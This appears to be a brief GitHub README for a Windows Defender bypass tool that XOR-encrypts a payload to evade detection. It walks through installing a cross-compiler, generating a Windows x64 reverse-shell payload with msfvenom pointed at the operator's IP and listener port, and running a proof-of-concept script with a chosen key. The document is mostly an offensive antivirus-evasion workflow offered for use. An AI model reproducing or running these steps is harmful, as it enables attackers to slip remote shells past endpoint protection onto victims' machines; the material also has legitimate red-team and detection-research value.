 # BWD
Bypass-Windows-Defender

Bypass Windows Defender by encrypt the payload and execute it with the key at the same time. 

To realise this attack we will xor our payload with a key so WD can't read it and detect it.

```
sudo apt update
sudo apt upgrade
sudo apt install wingw-w64
```

Creation of the payload with msfvenom. For the exemple I take a revershell : 
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=@YOUR_IP LPORT=@PORT_LISTENER -f raw >	payload.bin
```

You can now execute poc.py with the key you want to xor the payload :
```
chmod +x poc.py
./poc.py secret_key
```


